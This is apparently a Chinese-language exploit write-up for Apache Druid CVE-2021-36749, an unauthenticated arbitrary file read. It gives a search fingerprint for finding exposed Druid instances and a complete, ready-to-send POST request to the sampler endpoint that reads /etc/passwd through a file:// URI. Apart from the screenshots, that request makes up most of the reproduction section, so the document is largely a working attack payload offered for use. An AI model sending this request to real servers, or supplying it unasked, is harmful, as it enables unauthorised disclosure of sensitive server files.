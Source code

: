 # Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

```
Apache Druid
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

主页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251552893.png)

复现过程

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251552182.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251552177.png)

请求包为

```
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251552931.png)